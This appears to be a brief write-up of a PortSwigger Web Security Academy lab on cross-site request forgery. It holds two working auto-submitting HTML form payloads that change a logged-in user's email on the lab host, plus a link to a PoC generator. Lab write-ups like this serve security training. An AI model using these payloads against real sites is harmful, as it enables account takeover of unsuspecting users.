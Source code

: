 # CSRF Vulnerability

Afte Logging with the ```username:password``` given, we surf to change email page! when looking into the request, we check that there's no verification before submiting the request! means we can send to a target the url with the new email inside the url using ```POST``` request.

![****](/Portswigger-WebSecurity/CSRF/Screenshots/cssrf1.PNG)

## Let generate some Payloads!

CSRF PoC Generator
	- https://security.love/CSRF-PoC-Genorator/

```php
﻿<html>
<form enctype="multipart/form-data" method="POST" action="X.web-security-academy.net/my-account/change-email">
	<table>
		<tr>
			<td>email</td>
			<td><input type="text" value="just@aa.aa" name="email"></td>
		</tr>
	</table>
		<input type="submit" value="https://ac9f1f6a1f9ccdd0c06604330076008b.web-security-academy.net/my-account/change-email">
	</form>
</html>
<script>
	document.forms[0].submit();
</script>
```

Here's another payload!

```php
<form method="POST" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
</form>
<script>
	document.forms[0].submit();
</script>
```